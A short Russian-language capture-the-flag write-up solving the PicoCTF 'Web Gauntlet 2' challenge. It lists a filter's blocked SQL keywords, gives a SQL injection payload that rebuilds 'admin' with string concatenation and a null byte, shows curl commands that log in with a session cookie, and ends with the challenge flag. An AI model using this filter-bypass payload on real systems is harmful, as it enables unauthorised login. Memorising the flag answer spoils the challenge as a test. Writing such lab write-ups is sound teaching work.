

**Задание Web Gauntlet 2**

Судя по filter.php, приложение отсекает такие лексемы: or, and, true, false, union, like, =, \>, \<, ;, \--, /\*, \*/, admin.

Запрос, который это обходит: ad\'\|\|\'min\'%00. Это похоже на финальный payload из задания **Web Gauntlet** на PicoCTF 2020 Mini. В SQLite оператор \|\| склеивает строки, так что мы «собираем» слово admin из двух частей и проходим мимо фильтра. Дальше %00 --- это нулевой байт, он обрывает SQL-запрос.

Нулевой байт напрямую в поле на сайте не ввести, поэтому используем cURL:
```bash
curl --data \"user=ad'||'min'%00&pass=a" \

http://mercury.picoctf.net:35178/index.php \

--cookie "PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" \

--output -
```

Я скопировал cookie PHPSESSID из браузера --- это важно, потому что по нему сайт «узнаёт» нас и отдаёт флаг, когда мы переходим на /filter.php.

Флаг можно получить в браузере с тем же PHPSESSID или так же через cURL:
```bash
curl http://mercury.picoctf.net:35178/filter.php \

--cookie \"PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" | grep picoCTF
```
(рис 1)



**ОТВЕТ: picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}**

